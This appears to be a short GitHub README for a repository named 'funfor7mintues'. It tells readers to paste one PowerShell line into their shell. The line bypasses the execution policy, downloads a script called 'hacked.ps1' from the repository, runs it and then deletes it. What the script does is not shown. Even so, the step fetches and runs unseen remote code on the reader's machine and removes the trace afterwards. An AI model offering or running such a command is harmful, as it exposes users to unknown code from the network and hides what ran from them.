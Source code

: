 # funfor7mintues
# direct to do 
#this following text paste direct power-shell
----------------------------------------------------------------------------------------------------------------------------------------------------
cd $env:USERPROFILE\Downloads; Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass; Invoke-WebRequest -Uri "https://raw.githubusercontent.com/bhatt-saahab/funfor7mintues/main/INPORTANT/hacked.ps1" -OutFile "hacked.ps1"; .\hacked.ps1; Remove-Item "hacked.ps1"
-----------------------------------------------------------------------------------------------------------------------------------------------------
